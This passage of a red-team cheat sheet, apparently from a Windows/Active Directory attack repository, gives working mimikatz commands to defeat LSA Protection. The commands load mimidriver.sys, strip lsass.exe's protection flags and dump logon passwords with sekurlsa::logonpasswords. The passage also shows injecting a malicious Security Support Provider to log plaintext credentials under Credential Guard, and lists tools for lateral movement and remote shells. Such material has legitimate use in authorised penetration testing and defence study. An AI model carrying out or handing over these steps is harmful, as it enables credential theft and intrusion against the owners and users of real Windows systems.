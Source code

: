  :exclamation: What if mimikatz fails to dump credentials because of LSA Protection controls ? \
 
 - LSA as a Protected Process (Kernel Land Bypass)
 ```
 #Check if LSA runs as a protected process by looking if the variable "RunAsPPL" is set to 0x1
 reg query HKLM\SYSTEM\CurrentControlSet\Control\Lsa
 
 #Next upload the mimidriver.sys from the official mimikatz repo to same folder of your mimikatz.exe
 #Now lets import the mimidriver.sys to the system
 mimikatz # !+
 
 #Now lets remove the protection flags from lsass.exe process
 mimikatz # !processprotect /process:lsass.exe /remove
 
 #Finally run the logonpasswords function to dump lsass
 mimikatz # sekurlsa::logonpasswords
 ```
 
 - LSA as a Protected Process (Userland Land "Fileless" Bypass)
   - [PPLdump](https://github.com/itm4n/PPLdump)
   - [Bypassing LSA Protection in Userland](https://blog.scrt.ch/2021/04/22/bypassing-lsa-protection-in-userland)
 
 - LSA is running as virtualized process (LSAISO) by Credential Guard
 ```
 #Check if a process called lsaiso.exe exists on the running processes
 tasklist |findstr lsaiso
 
 #If it does there isn't a way tou dump lsass, we will only get encrypted data. But we can still use keyloggers or clipboard dumpers to capture data.
 #Lets inject our own malicious Security Support Provider into memory, for this example i'll use the one mimikatz provides
 mimikatz # misc::memssp
 
 #Now every user session and authentication into this machine will get logged and plaintext credentials will get captured and dumped into c:\windows\system32\mimilsa.log
 ```
  
- [Detailed Mimikatz Guide](https://adsecurity.org/?page_id=1821)
- [Poking Around With 2 lsass Protection Options](https://medium.com/red-teaming-with-a-blue-team-mentaility/poking-around-with-2-lsass-protection-options-880590a72b1a)

### Useful Tools
- [Powercat](https://github.com/besimorhino/powercat) netcat written in powershell, and provides tunneling, relay and portforward 
  capabilities.
- [SCShell](https://github.com/Mr-Un1k0d3r/SCShell) fileless lateral movement tool that relies on ChangeServiceConfigA to run command
- [Evil-Winrm](https://github.com/Hackplayers/evil-winrm) the ultimate WinRM shell for hacking/pentesting
- [RunasCs](https://github.com/antonioCoco/RunasCs) Csharp and open version of windows builtin runas.exe
